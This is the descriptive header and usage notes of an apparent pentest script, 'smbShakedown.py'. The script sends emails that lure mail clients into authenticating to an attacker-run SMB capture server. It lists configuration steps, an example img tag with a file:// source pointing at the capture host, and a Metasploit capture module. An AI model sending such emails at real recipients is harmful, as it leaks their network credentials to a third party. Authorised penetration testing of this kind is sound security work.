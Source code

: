 #smbShakedown.py
    Description: A simplified SMB Email Client Attack script used for External/Internal pentests.
    Created by: Nick Sanzotta / @beamr
    Version: smbShakedown.py v 1.0

#External Pentest
    Virtual Private Server (VPS) recommended.
    If behind a firewall be sure to enable port forwarding for your SMB Capture Server.
    
    1.Configure SMTP Relay server address.
    2.Enter SMTP Relay server credentials. (anonymous connections not yet supported.)
    3.Configure "from" and "to" addresses.
    4.Enter SMBCapture Server IP address, so it can be place in body of email 
    EX: <img src=file://127.0.0.1/image/foo.gif>
    5.SMBCapture Server does not have to be hosted locally.
    EX:(smbShakedown.py script can be ran locally on one system and a SMBCapture server can be hosted somewhere else like on a VPS server.

#Internal Pentest
    1.Configure SMTP Relay server address or your own locally hosted SMTP Server. (Looking into intergrated support.)
    <hmm... Does the client's Email server support relaying?>
    2.Enter SMTP Relay server credentials. (anonymous connections not yet supported.)
    3.Configure "from" and "to" addresses.
    4.Enter SMBCapture Server IP address, so it can be place in body of email 
    EX: <img src=file://127.0.0.1/image/foo.gif>
    5.SMBCapture Server can be hosted locally since your testing an internal network right?
    (Will add in support to automatically launch MSF Console with auxiliary/server/capture/smb)

#To do:
    SMTP Anonymous Auth option
    MSF Console option(auxiliary/server/capture/smb)
    Multiple recipient address support.
    SMTP local server option
    Create forked version.

